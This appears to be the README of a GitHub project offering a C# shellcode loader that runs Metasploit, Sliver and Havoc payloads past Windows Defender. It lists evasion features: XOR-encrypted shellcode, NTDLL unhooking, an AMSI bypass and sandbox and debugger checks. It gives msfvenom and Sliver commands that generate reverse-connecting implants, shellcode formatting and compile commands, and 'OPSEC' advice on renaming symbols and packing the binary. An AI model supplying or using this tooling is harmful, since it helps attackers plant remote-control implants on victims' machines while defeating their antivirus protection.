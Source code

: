 ### C# ShellCode Loader
--------------------------------------
A quick and dirty C# shellcode loader that implements several antivirus bypass and defense evasion techniques. <br> 

<i/>Note: I simply reused and modified codes from various Github projects.</i>

#### FEATURES
  - Classic shellcode injection technique using the function 'NtCreateThreadEx'  (=>To do next: upgrade with a better injection technique)
  - Shellcode encryption (XOR)
  - NTDLL unhooking (it loads a fresh new copy of ntdll.dll via file mapping and imports functions from this ntdll.dll)
  - AMSI bypass
  - Basic sandbox detection/evasion techniques
    - Exit if the program is running on a computer that is not joined to a domain
    - Exit if after sleeping for 15s, time did not really passed
    - Exit if a debugger is attached
    - Exit if making an uncommon API call fails (i.e. we are running in an AV sandbox that can't emulating it)
  - Compatible with shellcodes of multiple C2 frameworks such as: Metasploit, Silver and Havoc
    
#### TESTS
- Succesfully tested on a Windows 10 x64 laptop (target) with Windows Defender enabled (without 'Automatic sample submission') and shellcodes of multiple C2 frameworks (in C# format & encrypted with XOR cipher algorithm)

#### INPUT (Shellcode formats)
Your shellcode must be in C# format (see examples below) and then encrypted using XOR cipher algorithm.
Obviously, both the encrypted shellcode and yout XOR key must be added in the file 'CsharpShellCodeLoader.cs' before you compile it.

- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o shellcode```  
  
- Sliver C2 Framework  
  ```[server] sliver > generate --arch amd64 -f shellcode --http IP -l --os Windows --save shellcode```  
  ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
  ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### COMPILATION 
- I used "Developer PowerShell for VS 2022":
  - Microsoft (R) Visual C# Compiler version 4.5.0-6.23123.11
  - Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs

#### OPSEC Advices
- The file 'CsharpShellCodeLoader.cs' is not obfuscated. Class/function/variable names should be changed and all comments must be deleted or modified before compiling this file.
- Once compiled, if you want to compress and obfuscate the shellcodeloader executable you can use packers like "ConfuserEx" (but it is not necessary in order to bypass most AV solutions).
  
